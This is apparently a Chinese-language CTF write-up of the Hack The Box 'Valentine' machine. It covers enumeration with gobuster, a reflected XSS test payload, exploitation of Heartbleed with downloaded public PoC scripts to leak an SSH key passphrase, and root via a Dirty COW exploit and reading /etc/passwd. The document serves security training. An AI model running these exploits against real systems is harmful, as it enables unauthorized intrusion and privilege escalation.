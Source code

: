 ```yaml
---
title: Valentine（CTF-like also）
categories:
- training
tags:
- training
---
```

```
Discovered open port 22/tcp on 10.10.10.79                                     
Discovered open port 443/tcp on 10.10.10.79                                    
Discovered open port 80/tcp on 10.10.10.79   

443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
```
---
访问后发现http和https，虽然端口不同，但是内容都是一样。

wget http://10.10.10.79                

gobuster -u http://10.10.10.79 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
/dev

## notes.txt

```
http://10.10.10.79/dev/hype_key
http://10.10.10.79/dev/notes.txt
```

```
To do:

1) Coffee.
2) Research.
3) Fix decoder/encoder before going live.
4) Make sure encoding/decoding is only done client-side.
5) Don't use the decoder/encoder until any of this is done.
6) Find a better way to take notes.
```
https://10.10.10.79/encode
输入`2222</br><script>alert('xss')</script>`

 一个反射性xss

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-22-04/6.PNG)

![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-22-04/7.PNG)

Secure Data Encoder - No Data is Stored On Our Servers ，看起来不像注入漏洞。没有利用思路了，看看writeup

## writeup

![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-22-04/8.PNG)

google hex to ascii码，得到了一个ssh私钥。我的内心是这样的凸(艹皿艹 )

htb总是将密码口令以不引人注目的方式藏在诸如ftp服务器上，实际上在real场景中，几乎没有人会这么做。

![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-22-04/9.PNG)

chmod 400 id_rsa

ssh -i id_rsa hype@10.10.10.79

需要输入密码

---

```
searchsploit heartbleed
python 32745.py -p 443 10.10.10.79
换一个poc

wget https://raw.githubusercontent.com/sensepost/heartbleed-poc/master/heartbleed-poc.py
python heartbleed-poc.py -p 443 10.10.10.79
python heartbleed-poc.py -p 443 10.10.10.79 -n 10 > memori.txt
```
通过heardbleed泄露内存中的信息，但是试了一百多（-n选择次数），也没有成功dump出text包含的ssh密码。好坑~~

总之，heartbleedbelievethehype，以该口令ssh成功登入。

## 提权
cat /etc/passwd

发现有一个用户firefart，立即意识到，有人用dirtycow成功提权了

于是查找exp
```
find / -name "dirty" 2>/dev/null

看到tmp目录有现成的
./dirty 123
等待一分钟左右

su firefart
123
```
## 总结
heartbleed是一种内存错误，发生在443端口，ssl协议

tmux是指通过一个终端登录远程主机并运行后，在其中可以开启多个控制台的终端复用软件。

利用权限错误，以root权限运行tmux，可以利用该软件提权。



